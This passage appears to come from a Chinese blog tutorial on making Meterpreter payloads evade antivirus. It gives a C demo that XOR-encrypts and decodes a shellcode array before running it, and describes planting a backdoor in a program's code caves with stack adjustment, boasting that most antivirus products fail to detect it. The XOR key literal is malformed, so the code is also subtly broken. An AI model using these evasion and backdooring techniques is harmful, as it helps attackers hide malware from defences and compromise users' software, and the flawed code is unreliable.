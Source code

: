 ![/styles/images/meterpreter/p1.png]({{ '/styles/images/meterpreter/p1.png' | prepend: site.baseurl }})

当然不止是 shikata_ga_na 编码方式，其他的编码方式特征可能更加明显（x86/fnstenv_mov 的编码方式就被很多杀软能直接检测到，远不如 shikata_ga_na ）。那么如果要对抗这样的情况，只能自己再将编码过后的shellcode进行编码或者加密。       

我这里写一个简单的xor作为demo供大家感受一下，代码如下：

```

unsigned char shellcode[]=
"\x33\xc9\xb1\xc6\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xe6";

// the key to xor
unsigned char key[]="\xcc\0xfa\0x1f\0x3d";

// encode shellcode

     for ( i=0; i<(sizeof(shellcode)-1) ; i=i+1)
     {
          shellcode[i]=shellcode[i]^key[i % sizeof(key)];
     }

// decoder
void decode()
{
for (i=0; i<(sizeof(shellcode)-1); i+=1)
     shellcode[i]=shellcode[i]^key[i%sizeof(key)];
}

void executeShellcode()
{
     decode();
     // run shellcode
}

```
#### 4.shellcode植入后门    

目前有不少文章和工具都提供了植入后门的方法。例如shellter，the-backdoor-factory，工具的功能都很强大。   

这里介绍一下手动在code cave（代码间隙）植入后门的方法，整体流程如图：    

![/styles/images/meterpreter/p2.png]({{ '/styles/images/meterpreter/p2.png' | prepend: site.baseurl }})

其中比较关键的部分是调整堆栈平衡，通过`sub esp`, 或者`add esp`, 来调整堆栈，否则执行完payload后的正常程序会崩溃。  

如果没有适合大小的code cave或者payload 的非常大，这个时候可能需要多个code cave一起使用，关键部分如下图流程   

![/styles/images/meterpreter/p3.png]({{ '/styles/images/meterpreter/p3.png' | prepend: site.baseurl }})

还可以结合上一部分的编码或加密，免杀效果很好，大部分的杀软都直接GG .   



#### 5.多平台多语言    
